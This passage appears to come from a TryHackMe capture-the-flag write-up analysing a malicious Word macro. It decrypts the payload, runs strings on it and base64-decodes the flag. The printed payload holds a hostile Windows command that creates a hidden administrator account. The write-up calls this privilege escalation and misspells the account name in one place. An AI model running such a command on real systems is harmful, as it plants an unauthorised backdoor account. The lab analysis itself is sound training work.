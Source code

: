    ```bash
    ubuntu@tryhackme:~/Desktop$ nano orcam.py # (Content of orcam.py would be here, containing decryption logic)
    ubuntu@tryhackme:~/Desktop$ python3 orcam.py
    ```
    Executing `orcam.py` produced a new file named `payload.bin`.

3.  **Inspect `payload.bin`:**
    To understand what the decrypted payload contained, I first verified its file type and then used `strings` to extract human-readable text.

    ```bash
    ubuntu@tryhackme:~/Desktop$ file payload.bin
    payload.bin: data

    ubuntu@tryhackme:~/Desktop$ hexdump -C payload.bin | less # Used for raw binary inspection if strings isn't enough

    ubuntu@tryhackme:~/Desktop$ strings payload.bin
    ;}$u
    D$$[[aYZQ
    net user administrrator VEhNe0V2MWxfTUBDcjB9 /add /Y & net localgroup administrators administrrator /add
    ```

    The `strings` command proved pivotal, revealing a clear command: `net user administrrator VEhNe0V2MWxfTUBDcjB9 /add /Y & net localgroup administrators administrrator /add`. This command is designed to **add a new user named `administtrator`** (a deliberate typo, often a subtle form of obfuscation in red team or malware samples) with a specific password, and then **add this new user to the local `administrators` group**. This constitutes a classic **privilege escalation** technique.
    

4.  **Decode the Password (Flag):**
    The password string `VEhNe0V2MWxfTUBDcjB9` immediately looked like a Base64 encoded string, likely holding our target flag.

    ```bash
    ubuntu@tryhackme:~/Desktop$ echo VEhNe0V2MWxfTUBDcjB9 | base64 -d
    THM{Ev1l_M@Cr0}
    ```

---


## The Verdict

The backdoor was delivered via a malicious macro in an attached Word document. The macro executed an obfuscated payload that, when decrypted, attempted to create a new administrator user on the compromised system. The password for this newly created user contained the flag.

**The Flag:** `THM{Ev1l_M@Cr0}`

---


## 🧩 Summary
